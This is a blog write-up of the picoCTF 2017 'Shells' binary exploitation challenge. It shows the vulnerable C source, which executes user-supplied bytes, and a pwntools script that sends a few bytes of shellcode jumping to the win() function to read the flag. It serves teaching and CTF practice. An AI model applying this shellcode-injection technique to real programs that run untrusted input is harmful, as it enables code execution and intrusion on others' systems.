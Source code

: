 Title: PicoCTF 2017 Lvl2 Shells
Date: 2018-7-27 10:02
Modified: 2018-7-27 10:02
Category: ctf
Tags: ctf, pwnable, binary exploitation
Slug: picoCTF_lvl2Shells
Authors: F3real
Summary: How to solve picoCTF Lvl2 Shells

picoCTF is another interesting CTF competition found at [https://2017.picoctf.com/](https://2017.picoctf.com)

We will take a look at one of binary exploitation challenges, Shells.

>How much can a couple bytes do? Use [shells](https://webshell2017.picoctf.com/static/8ee8b9f60eb42472a741748770af94ff/shells) ! [Source](https://webshell2017.picoctf.com/static/8ee8b9f60eb42472a741748770af94ff/shells.c). Connect on shell2017.picoctf.com:55049.

First lets, look at source code:

~~~c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>

#define AMOUNT_OF_STUFF 10

//TODO: Ask IT why this is here
void win(){
    system("/bin/cat ./flag.txt");    
}


void vuln(){
    char * stuff = (char *)mmap(NULL, AMOUNT_OF_STUFF, PROT_EXEC|PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, 0, 0);
    if(stuff == MAP_FAILED){
        printf("Failed to get space. Please talk to admin\n");
        exit(0);
    }
    printf("Give me %d bytes:\n", AMOUNT_OF_STUFF);
    fflush(stdout);
    int len = read(STDIN_FILENO, stuff, AMOUNT_OF_STUFF);
    if(len == 0){
        printf("You didn't give me anything :(");
        exit(0);
    }
    void (*func)() = (void (*)())stuff;
    func();      
}

int main(int argc, char*argv[]){
    printf("My mother told me to never accept things from strangers\n");
    printf("How bad could running a couple bytes be though?\n");
    fflush(stdout);
    vuln();
    return 0;
}
~~~

From source code we can see that we need to call `win` function. In `vuln` we see that program maps memory for user input and sets read/write/execute permission on it. After that it, in this strange looking line of code,

    void (*func)() = (void (*)())stuff;

casts input buffer to `void f()` and assigns it to function pointer. For example if we wanted to cast to something like `int f(char a, int b)` we would use `(int (*)(char,int))`.

First we need to find address of `win` function in shells binary, we can use **objdump** for this:

    objdump -d shells -M intel

![objdump disasembly of win function]({static}/images/2018_8_27_Shells.png){: .img-fluid .centerimage}

And we get function address `0x08048540`.

My first idea was just to pass function address but it didn’t work since we need actual assembly code. So lets write some shellcode using **pwntools**:

~~~python
from pwn import *
         
context.arch = 'i386'
context.terminal = 'tmux'

r = remote('shell2017.picoctf.com', 55049)
print r.recvuntil('Give me 10 bytes:')
payload = asm('mov eax, 0x08048540') + asm('call eax')
r.send(payload)
print r.recvall()
r.close()
~~~

We just set context so **pwntools** knows arch of the system, connect to server and send our shellcode:

    move eax, 0x08048540
    call eax

We call from register since in that case value is interpreted as absolute address offset instead of relative (if we just used `call 0x08048540`).

Also we could have just used push/ret shellcode.

    push 0x08048540
    ret

In any case running our python scripts gives us the flag :D
